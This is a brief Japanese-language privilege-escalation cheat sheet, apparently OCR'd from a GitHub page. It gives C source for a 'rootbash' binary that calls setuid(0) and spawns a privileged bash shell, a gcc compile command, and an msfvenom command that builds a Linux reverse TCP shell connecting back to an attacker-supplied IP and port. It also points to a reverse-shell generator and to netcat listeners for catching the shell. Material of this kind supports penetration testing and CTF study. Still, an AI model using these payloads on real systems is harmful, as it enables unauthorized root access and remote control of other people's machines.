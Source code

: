# rootbash
あるルート・プロセスが、制御可能な別のプロセスを実行する場合があります。このような場合、次のようなCコードをコンパイルすると、rootとして動作するBashシェルが生成されます。
```
int main() {
setuid(0);
system("/bin/bash -p");
}
```
以下を使用してコンパイルします。
```
$ gcc -o <name> <filename.c>
```
# msfvenom
```
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
```
このリバースシェルはnetcatやMetasploit独自のmulti/handlerを使って捕捉することができます。  

リバースシェルをネイティブに起動する方法は複数あります。   
これらを提案するための良いツールは https://github.com/mthbernardes/rsg  
全ては単純なnetcatリスナーを使って捕捉することができます。